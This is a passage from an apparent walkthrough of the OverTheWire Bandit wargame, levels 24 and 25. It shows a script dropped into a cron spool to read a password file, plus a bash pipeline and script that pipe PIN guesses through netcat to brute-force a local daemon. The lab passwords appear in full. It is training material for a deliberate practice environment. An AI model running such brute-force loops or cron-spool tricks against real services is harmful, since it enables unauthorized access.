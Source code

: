 ```bash
$ chmod 777 b23.sh
$ cp b23.sh /var/spool/bandit24/b23.sh
$ cat /tmp/bandit24pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Voila!

## [Level 25](http://overthewire.org/wargames/bandit/bandit25.html)

```bash
#Login
$ ssh bandit24@bandit.labs.overthewire.org -p 2220   #password=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

This was one of the most fun (my favorite?) levels in the Bandit challenges! 
We have to connect to a port and brute-force a PIN code - fun!

Here's how I thought about it:

1. Use `echo` and bash expansions to construct strings with the password from the previous level (UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ) followed by every combination of 0..9 for each of the four PIN digits. 
2. Pipe this into `tr`, which yields repeating lines of our old password, then a PIN guess, then our old password, then another PIN guess, and so on. 
3. Then using `paste`, we "stitch" together two lines (i.e., so that our old password and one PIN guess reside on one line, separated by a single space. 
    This part was a bit of a hack to get the text into the desired format. 
4. The result of all of this is piped to the daemon running on localhost port 30002.

I will let you play around with parts of this pipeline. 

To be honest, my solution doesn’t show -which- PIN reveals the correct answer, but it does print the correct answer to `stdout` when it is encountered in my PIN attempts.
Rumor has it that the PIN changes over time anyways, so who cares what the PIN is — we want the password!

```bash
$ echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ\ {0..9}{0..9}{0..9}{0..9} |  tr " " "\n" | paste -d ' ' - - | nc localhost 30002
...snip...
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

Alternatively, you could write a script. 
I played with both approaches, but I like the pipeline approach better. 
In case you are interested though, I've included `brute.sh` below. 

```bash
#!/bin/bash
echo "brute-forcing port 30002:"
for i in $(seq 0000 9999);
do
echo "---------------"
echo "Testing: $i"
echo "---------------"
echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i | netcat localhost 30002
done
================
```
